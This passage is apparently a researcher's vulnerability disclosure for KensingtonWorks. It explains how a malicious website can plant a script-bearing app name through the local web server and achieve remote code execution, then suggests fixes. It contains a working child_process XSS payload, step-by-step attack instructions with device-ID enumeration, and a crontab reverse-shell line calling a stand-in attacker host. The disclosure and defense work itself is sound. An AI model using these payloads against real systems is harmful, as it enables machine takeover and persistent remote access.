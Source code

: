 An attacker can exploit KensingtonWorks's lack of sanitization by creating a malicious website with malicious JavaScript. Once they have lured a victim to this website, they have their JavaScript send an HTTP request to `/config/apps?device=$DEVICE_ID`, a KensingtonWorks endpoint that creates an "app-specific configuration" (it doesn't matter what this means). In this request the attacker gives their new app the improbable name:

`"\<script\>require('child_process').spawn('touch', ['/tmp/oh-dear']);\</script\>"`

When the user next opens the KensingtonWorks UI, the application will attempt to display a list of all the applications for which the user has created app-specific configurations. When KensingtonWorks comes to display the attacker's maliciously-named app, it interprets the app's name as JavaScript code and executes it. The `spawn` NodeJS function in the payload allows the attacker to run a shell command of their choice, giving them direct remote code execution.

A step-by-step guide:

1. Lure the victim to navigate their browser to a website that you control
2. Send a `POST` request to `/config/apps?device=$DEVICE_ID` for every value of `$DEVICE_ID` between 00000 and 99999. The body of the request should be the JSON string `{"name": "$YOUR_PAYLOAD_COMMAND_HERE", "identifier": "test"}`. Enumerating through all 100,000 possible device IDs should take less than 5 minutes.
3. Wait for the victim to open the KensingtonWorks UI. Your payload shell command will silently execute, allowing you to take control of the victim's machine

Below is a proof of concept gif generated by running this attack on myself using the payload:

`"\<script\>require('child_process').spawn('open', ['/Applications/Calculator.app/']);\</script\>"`

This payload means that whenever KensingtonWorks opened, the `Calculator.app` program opens too:

<img src="/images/kensington-xss-demo.gif" />

A real attacker would use a more vicious payload command like the following:

`crontab -l | { cat; echo "*/5 * * * * nc ATTACKER.IP.ADDR.ESS 1234 | /bin/sh"; } | crontab -`

This command creates a cronjob that causes a victim's computer to repeatedly phone home to a server controlled by an attacker. It opens a "reverse shell", giving the attacker persistent access to execute further arbitrary commands, sniff round the victim's machine, and (for example) download their entire hard drive.

### How Kensington could patch this vulnerability

I notified Kensington about this vulnerability on `2020-07-06`, but they haven't fixed it or been in touch with me. A slapdash fix would be to add sanitization to every place in the program that displays variable data loaded from an external source. For safety, this should even be done for those data sources that an attacker shouldn't be able to influence.

However, the root cause of both this and the previous vulnerability I found is still the insecure local web server. As long as it is possible for an attacker to interfere with a victim's configuration using only a malicious website, KensingtonWorks is vulnerable to settings-manipulation, which is only a small mis-step away from another remote code execution flaw.

As I've already written, I don't think that KensingtonWorks should be using a local web server at all. However, I acknowledge that corporate constraints mean that a full rewrite of the tool is unlikely. If Kensington sticks with the local web server model, they should at least add authentication that prevents an attacker from interacting with it. I'm told that the industry standard for securing such local web servers is to require a custom HTTP header to be set on all requests sent to the tool. It doesn't matter what value the header takes, so long as it begins with `Sec-`. For example:


[ken1]: https://robertheaton.com/remote-code-execution-kensingtonworks/
[kenworks]: https://www.kensington.com/en-gb/software/kensingtonworks/
[electron]: https://www.electronjs.org/
[parsia]: https://twitter.com/cryptogangsta
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS